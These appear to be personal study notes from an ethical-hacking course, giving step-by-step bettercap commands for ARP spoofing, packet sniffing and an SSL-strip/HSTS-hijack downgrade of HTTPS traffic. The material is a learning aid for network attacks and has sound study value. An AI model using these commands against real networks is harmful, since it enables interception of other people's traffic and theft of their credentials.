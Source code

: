 net.show shows a table with that information nicely

  

This is how you turn on a module of bettercap

- set arp.spoof.fullduplex true
    

  
  

ARP spoofing attack with bettercap

- With the bettercap prompt open 
    
- help arp.spoof //so you can see what the modules do
    
- set arp.spoof.fullduplex true
    
- set arp.spoof.targets <IP address of the target device>
    
- arp.spoof on
    
- Make sure that net.probe and net.recon are also running
    

  

Now we need to analyse the data captured

- net.sniff on
    

OBS: This will not work with https

  

To make this process easier you can use a caplet that is a text file with all the commands

  

This process will only work with http because is sent as plain text. This weakness was solved with HTTPS that is used by most websites because encrypts http using TLS (transport layer security) or SSL(secure sockets layer), that is very difficult to break.

The solution is to downgrade HTTPS to HTTP, to do this you need to manually configure and use a tool called SSL strip.

  

- As an example of this technique you can use a caplet that is on the resources of lesson 41. Download, extract and put on the directory Computer/usr/share/bettercap/caplets 
    
- Deleting the other one with the same name that is buggy
    
- Follow all the steps of the man in middle attack, but put the following code before the net.sniff on
    
- set net.sniff.local true //to sniff data even if appear to be local because that will happen with the following process
    
- Open another terminator window
    
- bettercap -iface eth0 -caplet /root/spoof.cap
    
- hstshijack/hstshijack
    
